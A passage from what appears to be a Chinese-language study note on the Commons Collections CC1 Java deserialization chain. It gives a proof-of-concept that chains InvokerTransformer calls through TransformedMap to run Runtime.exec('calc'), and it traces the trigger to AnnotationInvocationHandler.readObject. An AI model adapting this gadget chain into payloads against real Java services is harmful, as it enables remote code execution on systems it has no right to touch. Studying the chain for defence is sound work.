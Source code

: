 更新下Poc

```java
        Transformer[] transformers = new Transformer[] {
            new InvokerTransformer("getDeclaredMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(1,1); //不复制的话Map为空，不能遍历Map
        Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer); //super传的是hashMap.put(1,1)
        for(Map.Entry entry:transformedMap.entrySet()) {
            entry.setValue(Runtime.class);
        }
```

**（其实不止上面的调用，写完这个Poc可以自己debug一下看下调用过程）**

接下来去找setValue的调用，最后在AnnotationInvocationHandler中找到了在readObject方法中的调用。到此利用链完成。

![image-20240625154223501](https://s2.loli.net/2024/06/25/UEmgxTwnRY6LXVb.png)

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {  //遍历Map<String, object> memberValues是Map类 memberValue是键值对
            String name = memberValue.getKey();                     //取键值对的key, memberValue
            Class<?> memberType = memberTypes.get(name);            //返回key对应的映射(Value), Class<? extends Annotation> type
            if (memberType != null) {  // i.e. member still exists  //type中需要有memberValues的key
                Object value = memberValue.getValue();              //取键值对的value, memberValue
                if (!(memberType.isInstance(value) ||               //判断两个对象类型，value是否可以强制转化为memberType
                      value instanceof ExceptionProxy)) {           //value是否是ExceptionProxy的实例化对象
                    memberValue.setValue(                           //memberValue需要设置为AbstractInputCheckedMapDecorator
                        new AnnotationTypeMismatchExceptionProxy(   //runtime
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
```

[配置]: https://xz.aliyun.com/t/12669?time__1311=mqmhDvqIxfgD8DlxGo4%2BxCw67o7KKG%3Dz4D&amp;alichlgref=https%3A%2F%2Fwww.google.com%2F